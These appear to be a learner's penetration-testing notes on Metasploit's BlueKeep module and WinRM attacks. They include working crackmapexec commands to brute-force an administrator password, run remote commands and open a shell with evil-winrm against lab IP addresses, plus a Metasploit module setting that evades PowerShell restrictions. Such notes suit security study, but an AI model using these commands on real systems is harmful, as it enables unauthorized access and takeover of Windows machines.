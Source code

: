 MSF:
search bluekeep for aux and exploit
set target of windows u r targeting
```msfconsole
show tagrets
use <id>
```
Note that if the memory allocation size is too large, the xploit would crash the system (default is 250MB)

### WinRM exploit
- window remote managment over http and https
- not implemented on default
- Ease for admins to access all the nodes on a network
- usually -p5985 or 5986 if SSL is configured (ie HTTP vs HTTPS) --> Normal nmap scan wont reveal it as its not the top 1000 most common ports
- Nmap service scan also cant tell wat is the actual service running, must confirm using crackmapexec
- 2 ways to auth:
	1. Username + password
	2. Username + password hash
Exploit with crackmapexec (useful for many other windows services --> MSsql, SSH, smb, winrm )
Using a ruby script "evil-winrm" to get command shell access

```bash
#bf the password
crackmapexec winrm 10.10.11.198 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

#execute the command
crackmapexec winrm 10.10.11.198 -u administrator -p tinkerbell -x "whoami"


#to get a cmd
evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.19
```

Meterpreter session with available credentials
```msfconsole
search winrm_script_exec

#force the module to use a visual basic command stager needs this to work (yes)
#sends the payload in VBS format rather than default powershell. Useful if powershell is restricted or disabled but VBS is allowed to run

set FORCE_VBS true
```

# Windows Kernal exploits

### Priv exploit
- exploit misconfigs to gain access
- pivot around network to get access
